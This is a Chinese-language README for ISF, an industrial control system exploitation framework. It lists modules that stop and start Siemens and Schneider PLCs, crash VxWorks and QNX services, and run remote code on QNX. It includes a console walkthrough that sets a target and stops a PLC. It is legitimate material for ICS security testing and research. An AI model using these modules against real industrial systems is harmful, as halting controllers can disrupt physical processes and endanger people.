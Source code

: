 # 框架介绍
ISF(Industrial Exploitation Framework)，是一款基于python编写的类msf工控漏洞利用框架。该框架基于开源项目[routersploit](https://github.com/reverse-shell/routersploit)修改而来。

# 当前脚本工具

## 工控协议客户端
| Name               | Path                                   | Description            |
| -------------------| ---------------------------------------|:----------------------:|  
| modbus_tcp_client  | icssploit/clients/modbus_tcp_client.py | Modbus-TCP客户端工具 |
| wdb2_client        | icssploit/clients/wdb2_client.py       | WdbRPC Version 2 客户端工具(Vxworks 6.x)|


## Exploit Module
| Name                    | Path                                                              | Description                             |
| ------------------------| ------------------------------------------------------------------|:---------------------------------------:|  
| s7_300_400_plc_control  | exploits/plcs/siemens/s7_300_400_plc_control.py | S7-300/400 PLC 启停脚本                  |
| vxworks_rpc_dos         | exploits/plcs/vxworks/vxworks_rpc_dos.py               | Vxworks RPC 远程拒绝服务（CVE-2015-7599） |
| quantum_140_plc_control | exploits/plcs/schneider/quantum_140_plc_control.py     | Schneider Quantum 140系列 PLC启停脚本    |
| crash_qnx_inetd_tcp_service | exploits/plcs/qnx/crash_qnx_inetd_tcp_service.py | Crash QNX Inetd TCP Service |
| qconn_remote_exec | exploits/plcs/qnx/qconn_remote_exec.py | QNX QCONN 远程代码执行 |


## Scanner Module
| Name                    | Path                                                              | Description                             |
| ------------------------| ------------------------------------------------------------------|:---------------------------------------:|  
| profinet-dcp-scan       | scanners/profinet-dcp-scan.py                                     | Profinet DCP 扫描器                      |


## ICS Protocols Module (Scapy Module)
These protocol can use for Fuzzing or create your own client.
 
| Name                    | Path                                                              | Description                             |
| ------------------------| ------------------------------------------------------------------|:---------------------------------------:|  
| pn_dcp                  | icssploit/protocols/pn_dcp                                        | Profinet DCP Protocol                   |
| modbus_tcp              | icssploit/protocols/modbus_tcp                                    | Modbus TCP Protocol                     |
| wdbrpc2                 | icssploit/protocols/wdbrpc2                                       | WDB RPC Version 2 Protocol              |



# 安装

## python依赖环境
* gnureadline (OSX only)
* requests
* paramiko
* beautifulsoup4
* pysnmp
* scapy [强烈建议参考官方文档手动安装最新版](http://scapy.readthedocs.io/en/latest/installation.html)

## 在Kali 中安装
    git clone https://github.com/dark-lbp/isf/
    cd isf
    python isf.py


# 使用
        root@kali:~/Desktop/temp/isf# python isf.py
        
          _____ _____  _____ _____ _____  _      ____ _____ _______
         |_   _/ ____|/ ____/ ____|  __ \| |    / __ \_   _|__   __|
           | || |    | (___| (___ | |__) | |   | |  | || |    | |
           | || |     \___ \\___ \|  ___/| |   | |  | || |    | |
          _| || |____ ____) |___) | |    | |___| |__| || |_   | |
         |_____\_____|_____/_____/|_|    |______\____/_____|  |_|
        
        
                        ICS Exploitation Framework
        
        Note     : ICSSPOLIT is fork from routersploit at
                   https://github.com/reverse-shell/routersploit
        Dev Team : wenzhe zhu(dark-lbp)
        Version  : 0.1.0
        
        Exploits: 2 Scanners: 0 Creds: 13
        
        ICS Exploits:
            PLC: 2          ICS Switch: 0
            Software: 0
        
        isf >

## Exploits
    isf > use exploits/plcs/
    exploits/plcs/siemens/  exploits/plcs/vxworks/
    isf > use exploits/plcs/siemens/s7_300_400_plc_control
    exploits/plcs/siemens/s7_300_400_plc_control
    isf > use exploits/plcs/siemens/s7_300_400_plc_control
    isf (S7-300/400 PLC Control) >
    
可以使用TAB键来补全路径。

## Options
### 显示 options
    isf (S7-300/400 PLC Control) > show options
    
    Target options:
    
       Name       Current settings     Description
       ----       ----------------     -----------
       target                          Target address e.g. 192.168.1.1
       port       102                  Target Port
    
    
    Module options:
    
       Name        Current settings     Description
       ----        ----------------     -----------
       slot        2                    CPU slot number.
       command     1                    Command 0:start plc, 1:stop plc.
    
    
    isf (S7-300/400 PLC Control) >
    
### 设置 options 参数
    isf (S7-300/400 PLC Control) > set target 192.168.70.210
    [+] {'target': '192.168.70.210'}
    

## 执行module
    isf (S7-300/400 PLC Control) > run
    [*] Running module...
    [+] Target is alive
    [*] Sending packet to target
    [*] Stop plc
    isf (S7-300/400 PLC Control) >
    
## 显示module信息
    isf (S7-300/400 PLC Control) > show info
    
    Name:
    S7-300/400 PLC Control
    
    Description:
    Use S7comm command to start/stop plc.
    
    Devices:
    -  Siemens S7-300 and S7-400 programmable logic controllers (PLCs)
    
    Authors:
    -  wenzhe zhu <jtrkid[at]gmail.com>
    
    References:
    
    isf (S7-300/400 PLC Control) >
    
# 说明文档
* [Modbus-TCP客户端工具使用说明](https://github.com/dark-lbp/isf/blob/master/docs/modbus_tcp_client.md)
* [WDBRPCV2客户端工具使用说明](https://github.com/dark-lbp/isf/blob/master/docs/wdbrpc_v2_client.md)
* [SNMP爆破工具使用说明](https://github.com/dark-lbp/isf/blob/master/docs/snmp_bruteforce.md)
* [从额外的目录中读取modules](https://github.com/dark-lbp/isf/blob/master/docs/load_extra_modules_from_folder.md)
* [如何创建一个module](https://github.com/dark-lbp/isf/blob/master/docs/how_to_create_module.md)
